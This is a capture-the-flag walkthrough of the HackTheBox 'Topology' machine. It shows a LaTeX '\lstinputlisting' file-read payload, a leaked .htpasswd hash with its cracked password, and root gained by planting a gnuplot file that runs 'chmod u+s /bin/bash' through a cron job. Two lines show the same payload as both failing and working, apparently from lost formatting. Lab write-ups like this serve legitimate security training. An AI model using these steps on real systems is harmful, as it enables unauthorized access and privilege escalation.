



# HackTheBox: [Topology](https://app.hackthebox.com/machines/Topology)

## Enumerate

```console
$ sudo nmap -nv -sCV -Pn $t                                                   
[...]
Host is up (0.090s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web service running on port 80:


There's one active link under "Software projects", the LaTeX Equation Generator. I add the vhost `latex.topology.htb` to `/etc/hosts`.

And here's the linked page, `http://latex.topology.htb/equation.php`:


The index is open for that URL:




The `header.tex` file has an interesting include, `listings`, which is [a vector for LFI](https://users.ece.utexas.edu/~garg/dist/listings.pdf)i:


`$\lstinputlisting{/etc/passwd}$` does _not_ work.

But `$\lstinputlisting{/etc/passwd}$` does:


The vhost `dev.topology.htb` is protected with basic-http-auth:


The `stats.topology.htb` page has a dynamically generated stats `png`.



## Exploit

I'm able to view the `.htpasswd` file at the root of the `dev.topology.htb` vhost:



Here's the hash from the image above:

```text
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

Cracking the hash with `john`:

```console
$ john --wordlist=~/rockyou.txt hash 
[...]
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
Session completed. 
```

The `dev.topology.htb` page looks like a draft page for a nascent software consulting business:


But the creds are also valid for `ssh` login:

```console
$ ssh vdaisley@$t
[...]

vdaisley@topology:~$ cat user.txt
f6395b[...]
```

## Escalate

The `stats.topology.htb` vhost mentioned above has a `png` file showing the system load average. It appears to be updated frequently, e.g. every minute:

```console
vdaisley@topology:~$ date && ls -l /var/www/stats/files/load.png
Tue 14 Nov 2023 05:29:55 PM EST
-rw-r--r-- 1 www-data www-data 13615 Nov 14 17:29 /var/www/stats/files/load.png
```

I transfer `pspy64` to the target:

```console
$ scp pspy64 vdaisley@$t:/tmp/
vdaisley@10.10.11.217's password: 
pspy64                                                                                                       100% 3032KB 344.4KB/s   00:08    
```

And this gives me what I need:

```console
vdaisley@topology:~$ chmod +x /tmp/pspy64
vdaisley@topology:~$ /tmp/pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/11/14 17:35:56 CMD: UID=1007  PID=3163   | /tmp/pspy64
[...]
2023/11/14 17:36:01 CMD: UID=0     PID=3172   | /usr/sbin/CRON -f 
2023/11/14 17:36:01 CMD: UID=0     PID=3174   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/11/14 17:36:01 CMD: UID=0     PID=3175   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/11/14 17:36:01 CMD: UID=0     PID=3177   | /usr/sbin/CRON -f 
2023/11/14 17:36:01 CMD: UID=0     PID=3176   | gnuplot /opt/gnuplot/loadplot.plt 
2023/11/14 17:36:01 CMD: UID=0     PID=3178   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3182   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3181   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3180   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3179   | netstat -i 
2023/11/14 17:36:01 CMD: UID=0     PID=3186   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3185   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3184   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3183   | uptime 
2023/11/14 17:36:01 CMD: UID=0     PID=3187   | tail -60 /opt/gnuplot/netdata.dat 
2023/11/14 17:36:01 CMD: UID=0     PID=3189   | gnuplot /opt/gnuplot/networkplot.plt 
^CExiting program... (interrupt)
```

So now I know `root` runs this every minute or so:

`/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;`

The command accesses files in a writable (though not readable) directory:

```console
vdaisley@topology:~$ ls -ld /opt/gnuplot
drwx-wx-wx 2 root root 4096 Jun 14 07:45 /opt/gnuplot
```

`gnuplot` has a `system` command I can exploit: <http://www.bersch.net/gnuplot-doc/system.html>

Using this approach, I'm able to run `bash` with `euid=0` and access the `root.txt` flag:

```console
vdaisley@topology:~$ echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/x.plt
vdaisley@topology:~$ sleep 60 && ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:~$ /bin/bash -p
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cat /root/root.txt
3a2016[...]
```

## Summary

This machine is an exercise in bypassing a PHP command filter to prevent malicious LaTeX commands, but they forgot at least one: `\lstinputlisting`. This allows retrieving the `/etc/passwd` file, but more practically it allows grabbing an `.htpasswd` file from `/var/www/dev`. With that file, the username and hashed password for the foothold user is easy via `john` and the `rockyou.txt` wordlist.

Privilege escalation is done by writing a `plt` file to `/opt/gnuplot` containing this line:

```sh
system "chmod u+s /bin/bash"
```

A `cron` job runs every minute to generate the stats for `/var/www/stats`, but that `plt` file gets run and makes `bash` run with `setuid` user `root`.
